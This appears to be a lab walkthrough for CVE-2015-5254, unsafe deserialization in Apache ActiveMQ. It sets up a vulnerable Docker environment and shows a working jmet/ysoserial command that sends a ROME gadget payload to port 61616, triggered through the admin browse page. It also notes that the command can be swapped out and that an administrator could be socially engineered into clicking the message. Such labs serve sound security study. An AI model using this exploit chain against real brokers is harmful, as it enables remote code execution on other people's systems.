 # ActiveMQ Unsafe Deserialization Vulnerability（CVE-2015-5254）

Apache ActiveMQ is an open source messaging middleware developed by the Apache Software Foundation. It supports Java messaging services, clustering, and Spring Framework.

Apache ActiveMQ 5.x before 5.13.0 does not restrict the classes that can be serialized in the broker, which allows remote attackers to execute arbitrary code via a crafted serialized Java Message Service (JMS) ObjectMessage object.

Reference link:

- https://www.blackhat.com/docs/us-16/materials/us-16-Kaiser-Pwning-Your-Java-Messaging-With-Deserialization-Vulnerabilities.pdf

## Vulnerable environment

Start the vulnerable environment:

```
docker-compose up -d
```

After the environment is started, it will listen on both ports 61616 and 8161. Port 61616 is the vulnerable port we will later send a message to. Port 8161 is the web management page port. You can access the web management page by visiting `http://your-ip:8161`.

## Exploit

The exploit process is as follows:

1. Generate payload (can use ysoserial)
2. As a message, send to port 61616
3. Access the web management page and read the queued message, access it to trigger the payload

To exploit this environment we will use [jmet](https://github.com/matthiaskaiser/jmet) Java Message Exploitation Tool.

First download the jar file of jmet, and create folder called `external` in the same directory (otherwise it may display an error that the folder does not exist).

We then use ysoserial to generate a payload and send it (the jmet jar comes with ysoserial, no need to download it separately). We need to choose one that can be used in ysoserial as a gadget, such as ROME.

Example:

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
```

![](1.png)

At this point, a new event will be added to the target ActiveMQ queue. We can visit `http://your-ip:8161/admin/browse.jsp?JMSDestination=event` to see all the messages in this queue：

![](2.png)

By clicking on this message we trigger the command execution. Next we enter the container and run `docker-compose exec activemq bash`. It can be seen that /tmp/success has been successfully created, indicating that the exploit is successful:

![](3.png)

We can replace the command within the shell statement and reuse it:

![](4.png)

It's worth noting that accessing messages through the web administration page and triggering the vulnerability requires administrator privileges. In the absence of a password, we can attempt to social engineer the administrator into clicking our queued event link.
